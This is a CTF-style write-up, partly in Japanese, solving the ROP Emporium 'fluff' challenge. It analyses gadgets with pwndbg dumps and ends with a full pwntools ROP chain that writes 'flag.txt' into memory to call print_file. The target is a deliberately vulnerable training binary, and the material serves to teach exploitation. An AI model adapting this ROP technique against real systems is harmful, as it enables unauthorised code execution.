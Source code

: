 # fluff (ROP Emporium 6)

## Information

### questionableGadgets
```asm
400628:	d7                   	xlat   BYTE PTR ds:[rbx] # set to AL register
400629:	c3                   	ret
40062a:	5a                   	pop    rdx
40062b:	59                   	pop    rcx
40062c:	48 81 c1 f2 3e 00 00 	add    rcx,0x3ef2
400633:	c4 e2 e8 f7 d9       	bextr  rbx,rcx,rdx
400638:	c3                   	ret
400639:	aa                   	stos   BYTE PTR es:[rdi],al
40063a:	c3                   	ret
40063b:	0f 1f 44 00 00       	nop    DWORD PTR [rax+rax*1+0x0]
```

#### stos
before
```
*RAX  0xb 
*RDI  0x7f887122a710 (_IO_stdfile_1_lock) ◂— 0 
```
```
pwndbg> hexdump 0x7f887122a710
+0000 0x7f887122a710  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
```
after
```
 RAX  0xb
*RDI  0x7f887122a711 (_IO_stdfile_1_lock+1) ◂— 0
```
```
pwndbg> hexdump 0x7f887122a710
+0000 0x7f887122a710  0b 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
```

alを使って任意の領域に書き込める

alに書き込む内容が入ればよい

#### xlat
before
```
*RAX  0xb                                                    
*RBX  0x7ffe8a260e28 —▸ 0x7ffe8a263196 ◂— 0x6666756c662f2e /* './fluff' */ */                                                                   
```
```
pwndbg> hexdump 0x7ffe8a260e28
+0000 0x7ffe8a260e28  96 31 26 8a fe 7f 00 00  00 00 00 00 00 00 00 00  │.1&.....│........│
+0010 0x7ffe8a260e38  9e 31 26 8a fe 7f 00 00  b6 31 26 8a fe 7f 00 00  │.1&.....│.1&.....│
+0020 0x7ffe8a260e48  c5 31 26 8a fe 7f 00 00  d9 31 26 8a fe 7f 00 00  │.1&.....│.1&.....│
+0030 0x7ffe8a260e58  fc 31 26 8a fe 7f 00 00  32 32 26 8a fe 7f 00 00  │.1&.....│22&.....│
```
after
```
*RAX  0
 RBX  0x7ffe8a260e28 —▸ 0x7ffe8a263196 ◂— 0x6666756c662f2e /* './fluff' */
```
rbxを使ってalを任意に書き換えられる

rbxに下のuseful charのアドレスを入れたい

#### bextr
```asm
400633:	c4 e2 e8 f7 d9       	bextr  rbx,rcx,rdx
```
rcxの値をrbxにコピーできる(rdxに0b0100000000000000 = 0x4000を入れればよい)

### yoi gadget
```asm
40062a:	5a                   	pop    rdx
40062b:	59                   	pop    rcx
40062c:	48 81 c1 f2 3e 00 00 	add    rcx,0x3ef2
```

### ROPgadget
```zsh
└─$ ROPgadget --binary ./fluff | grep "pop rdi"
0x00000000004006a3 : pop rdi ; ret
```

### useful char
```
00000230  01 00 00 00 00 00 00 00  2f 6c 69 62 36 34 2f 6c  |......../lib64/l|
00000240  64 2d 6c 69 6e 75 78 2d  78 38 36 2d 36 34 2e 73  |d-linux-x86-64.s|
00000250  6f 2e 32 00 04 00 00 00  10 00 00 00 01 00 00 00  |o.2.............|

000003c0  00 6c 69 62 66 6c 75 66  66 2e 73 6f 00 5f 5f 67  |.libfluff.so.__g|
000003d0  6d 6f 6e 5f 73 74 61 72  74 5f 5f 00 70 72 69 6e  |mon_start__.prin|
000003e0  74 5f 66 69 6c 65 00 70  77 6e 6d 65 00 5f 69 6e  |t_file.pwnme._in|
000003f0  69 74 00 5f 66 69 6e 69  00 6c 69 62 63 2e 73 6f  |it._fini.libc.so|
00000400  2e 36 00 5f 5f 6c 69 62  63 5f 73 74 61 72 74 5f  |.6.__libc_start_|
00000410  6d 61 69 6e 00 5f 65 64  61 74 61 00 5f 5f 62 73  |main._edata.__bs|
00000420  73 5f 73 74 61 72 74 00  5f 65 6e 64 00 47 4c 49  |s_start._end.GLI|
00000430  42 43 5f 32 2e 32 2e 35  00 2e 00 00 00 00 00 00  |BC_2.2.5........|
```
- f: 0x4003c4
- l: 0x4003c1
- a: 0x400411
- g: 0x4003cf
- .: 0x400434
- t: 0x4003e0
- x: 0x400246
- t: 0x4003e0

## Solution
まず，1文字目の'f'を0x601028に書き込むスクリプト
1. call 0x40062a with stack: 0x4000, (0x4003c4 - 0x3ef2 - 0xb)  # rbx = 0x4003c4 - 0xb (最初はrax = 0xbのため)
2. call 0x400628
3. set rdi to 0x601028
4. call 0x400639
```python
payload = b'A'*0x28
payload += p64(0x40062a)
payload += p64(0x4000)
payload += p64(0x4003c4 - 0x3ef2 - 0xb)
payload += p64(0x400628)
payload += p64(rop.rdi.address)
payload += p64(0x601028)
payload += p64(0x400639)
```
```
pwndbg> hexdump 0x601028
+0000 0x601028  66 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │f.......│........│
+0010 0x601038  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
... ↓            skipped 1 identical lines (16 bytes)
+0030 0x601058  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  │........│........│
```
okok

一般化すると
1. call 0x40062a with stack: 0x4000, (【i文字目のアドレス】 - 0x3ef2 - 【i-1文字目】)  
2. call 0x400628
3. set rdi to 0x601028 + i
4. call 0x400639

### Script
```python
from pwn import *

#conn = gdb.debug('./fluff')
conn = process('./fluff')

elf = ELF('./fluff')
rop = ROP(elf)

file_name = [b'\x0b', b'f', b'l', b'a', b'g', b'.', b't', b'x', b't']
char_addr = [0x4003c4, 0x4003c1, 0x400411, 0x4003cf, 0x400434, 0x4003e0, 0x400246, 0x4003e0]

payload = b'A'*0x28

for i in range(1, len(file_name)):
    payload += p64(0x40062a)
    payload += p64(0x4000)
    payload += p64(char_addr[i-1] - 0x3ef2 - int.from_bytes(file_name[i-1], 'little'))
    payload += p64(0x400628)
    payload += p64(rop.rdi.address)
    payload += p64(0x601028 + i - 1)
    payload += p64(0x400639)

payload += p64(rop.rdi.address)
payload += p64(0x601028)
payload += p64(0x400620)

conn.sendlineafter('> ', payload)
conn.interactive()
```